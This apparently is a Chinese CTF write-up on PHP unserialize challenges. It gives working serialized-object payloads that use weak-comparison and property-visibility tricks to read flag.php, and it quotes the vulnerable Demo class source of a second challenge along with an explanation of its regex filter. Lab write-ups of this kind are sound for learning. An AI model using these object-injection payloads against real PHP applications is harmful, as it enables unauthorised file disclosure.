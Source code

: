 因为在进行read()之前就会调用__destruct()魔术方法__

destruct()方法内使用了严格相等 this->op === “2”，process()方法内使用了else if ( this->op == “2”)，所以这里使用弱类型2 == "2"绕过。

`O:11:"FileHandler":3:{s:5:"%00*%00op";i:2;s:11:"%00*%00filename";i:8:"flag.php";s:10:"%00*%00content";N;}`

is_vaild()函数,它规定了序列化内容中只能包含ascii可见字符，而%00不是可见字符，php7.1+对类属性的检测不严格，所以可以用public来突破。

`O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";N;}`

?str=O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";N;}

flag{c8f14fd4-5455-4c8a-bdc9-785970e852f5}

### Web_php_unserialize

```assembly
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

**/[oc]:\d+:/i**
OC：正则表达式

* \d:  匹配一个数字字符。等价于 [0-9]。
*  +:  匹配前面的子表达式一次或多次。例如，'zo+' 能匹配 "zo" 以及 "zoo"，但不能匹配 "z"。+ 等价于 {1,}。
* /i:  表示匹配的时候不区分大小写

所以这个正则表达式就是查看是否有数字。
